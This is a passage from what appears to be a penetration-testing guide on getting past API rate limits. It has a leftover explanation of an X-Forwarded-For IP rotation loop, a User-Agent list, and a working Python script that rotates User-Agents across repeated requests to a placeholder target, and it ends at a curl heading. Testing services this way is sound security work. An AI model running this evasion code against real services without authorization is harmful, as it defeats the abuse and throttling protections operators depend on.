 Explanation: Similar to the Python script, this bash loop rotates through the specified IP addresses and sends requests using the `X-Forwarded-For` header.

Expected Output: If the `X-Forwarded-For` header is properly processed for rate limiting, requests will not be rate-limited. Observe the HTTP status codes for each request.

**Strategy 2: User-Agent Rotation**

**Step 6: List of User Agents**

Obtain a list of common or randomized User-Agent strings. You can find these online or generate them programmatically.

Example List:

```
Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36
Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/14.1.1 Safari/605.1.15
Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:89.0) Gecko/20100101 Firefox/89.0
```

**Step 7: Rotate User-Agent in Requests**

```python
import requests
import random

user_agents = [
    "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36",
    "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/14.1.1 Safari/605.1.15",
    "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:89.0) Gecko/20100101 Firefox/89.0"
]
url = "http://<target_service_ip>:<target_service_port>/api/endpoint"

for _ in range(20):
    user_agent = random.choice(user_agents)
    headers = {"User-Agent": user_agent}
    try:
        response = requests.get(url, headers=headers)
        print(f"Request with User-Agent {user_agent}: Status Code {response.status_code}")
    except requests.exceptions.RequestException as e:
        print(f"Request failed: {e}")
```

Explanation: This script rotates through different User-Agent strings in each request.  If the rate limiting is based solely on IP address, changing the User-Agent will bypass the rate limit.  Remember to replace the target service IP and port.

Expected Output:  If rate limiting depends solely on IP address, the requests should succeed without triggering the rate limit. Observe HTTP status codes for each request.

**Alternative (using curl):**
